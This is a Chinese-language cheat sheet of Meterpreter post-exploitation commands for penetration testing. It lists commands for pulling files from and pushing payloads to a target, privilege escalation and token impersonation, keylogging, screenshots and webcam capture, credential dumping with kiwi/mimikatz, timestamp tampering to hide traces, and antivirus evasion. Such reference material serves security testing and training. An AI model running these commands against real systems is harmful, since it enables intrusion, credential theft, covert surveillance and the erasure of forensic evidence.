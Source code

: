 ```yaml
---
icon: pen-to-square
date: 2025-04-26
tags: 
title: meterpreter常用命令
category:
  - 项目
---
```

以下是 Meterpreter 常用命令的整理，涵盖文件操作、系统控制、信息收集、权限提升等渗透测试场景：

---

**一、基础命令**
1. `help`  
   • 查看所有可用命令及说明。


2. `background`  
   • 将当前会话切换到后台（返回MSF控制台）。


3. `sessions`  
   • 在MSF中查看所有活跃会话，`sessions -i <ID>` 重新进入指定会话。


4. `sysinfo`  
   • 查看目标系统信息（OS、架构、主机名等）。


5. `getuid`  
   • 显示当前权限（如 `NT AUTHORITY\SYSTEM`）。


6. `exit` 或 `quit`  
   • 终止当前Meterpreter会话。


---

**二、文件操作**
1. `pwd` 或 `getwd`  
   • 查看当前工作目录。


2. `cd`  
   • 切换目录（支持 `C:\\` 或 `C:/` 格式）。


3. `ls` 或 `dir`  
   • 列出当前目录下的文件和子目录。


4. `cat`  
   • 读取文件内容：  

     ```bash
     meterpreter > cat C:\\flag.txt
     ```

5. `download`  
   • 下载文件到攻击机：  

     ```bash
     meterpreter > download C:\\secret.txt /home/kali/
     ```

6. `upload`  
   • 上传本地文件到目标：  

     ```bash
     meterpreter > upload /tmp/payload.exe C:\\Windows\\Temp
     ```

7. `edit`  
   • 用默认编辑器修改文件（需权限）。


8. `rm` 或 `del`  
   • 删除文件：  

     ```bash
     meterpreter > rm C:\\temp\\logs.txt
     ```

9. `mkdir`  
   • 创建目录：  

     ```bash
     meterpreter > mkdir C:\\hacked
     ```

---

**三、系统控制**
1. `shell`  
   • 进入目标系统的命令行（CMD或Bash），`exit` 返回Meterpreter。


2. `execute`  
   • 执行系统命令：  

     ```bash
     meterpreter > execute -f cmd.exe -i    # 交互式CMD
     meterpreter > execute -f "calc.exe"     # 启动计算器
     ```

3. `ps`  
   • 列出所有正在运行的进程。


4. `migrate`  
   • 迁移到其他进程（提升稳定性或权限）：  

     ```bash
     meterpreter > migrate <PID>    # 迁移到指定进程（如explorer.exe）
     ```

5. `kill`  
   • 终止指定进程：  

     ```bash
     meterpreter > kill <PID>
     ```

6. `getpid`  
   • 查看当前Meterpreter的进程ID。


7. `reboot` 或 `shutdown`  
   • 重启或关闭目标系统。


---

**四、网络操作**
1. `ipconfig`  
   • 查看目标网络接口信息（IP、网关等）。


2. `portfwd`  
   • 端口转发（将目标内网端口映射到本地）：  

     ```bash
     meterpreter > portfwd add -l 8080 -p 80 -r 192.168.1.100
     ```

3. `route`  
   • 查看目标内网路由表，辅助内网渗透。


---

**五、权限提升**
1. `getsystem`  
   • 尝试提权到SYSTEM权限（依赖漏洞利用）。


2. `load incognito`  
   • 加载令牌模拟模块：  

     ```bash
     meterpreter > list_tokens -u    # 列出可用令牌
     meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"  # 模拟令牌
     ```

3. `bypassuac`  
   • 绕过UAC（需配合模块使用）。


---

**六、信息收集**
1. `run post/windows/gather/arp_scanner`  
   • 扫描目标内网ARP表。


2. `run post/windows/gather/enum_logged_on_users`  
   • 枚举已登录用户。


3. `keyscan_start` 和 `keyscan_dump`  
   • 启动键盘记录并导出击键内容（需迁移到用户进程）。


4. `screenshot`  
   • 截取目标屏幕：  

     ```bash
     meterpreter > screenshot /tmp/screen.png
     ```

5. `webcam_list` 和 `webcam_snap`  
   • 列出摄像头设备并拍摄照片。


---

**七、其他实用功能**
1. `run vnc`  
   • 启动VNC远程桌面（需权限）。


2. `load kiwi` 或 `load mimikatz`  
   • 加载密码提取工具（获取明文密码或哈希）：  

     ```bash
     meterpreter > creds_all    # 提取所有凭据
     ```

3. `timestomp`  
   • 修改文件时间戳（隐藏痕迹）。


---

**注意事项**
1. 路径格式：使用 `C:\\` 或 `C:/`，避免单反斜杠。
2. 权限依赖：部分命令需管理员或SYSTEM权限。
3. 进程迁移：尽量迁移到稳定进程（如 `explorer.exe`）。
4. 规避检测：使用 `migrate` 和 `inject` 避免被杀毒软件拦截。
5. 使用 `help` 查看详细命令：  
   ```bash
   meterpreter > help <命令名>
   ```